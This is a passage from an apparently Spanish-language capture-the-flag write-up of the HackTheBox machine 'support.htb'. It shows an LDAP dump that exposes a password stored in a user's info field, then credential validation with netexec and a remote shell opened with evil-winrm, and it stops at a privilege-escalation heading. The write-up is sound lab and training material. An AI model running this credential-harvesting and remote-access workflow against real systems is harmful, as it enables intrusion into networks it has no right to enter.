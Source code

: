 ```
dSCorePropagationData: 20220528110344.0Z
dSCorePropagationData: 16010101000001.0Z

# Protected Users, Users, support.htb
dn: CN=Protected Users,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: group
cn: Protected Users
description: Members of this group are afforded additional protections against
  authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=
 298939 for more information.
--
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
```
## Intrusión

`Validamos credenciales`

```
# netexec winrm 10.129.230.181 -u 'support' -p 'Ironside47pleasure40Watchful'                         
WINRM       10.129.230.181  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.129.230.181  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

`Accedemos` a la máquina víctima

```
# evil-winrm -i 10.129.230.181 -u 'support' -p 'Ironside47pleasure40Watchful'           
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```
## Privilege Escalation
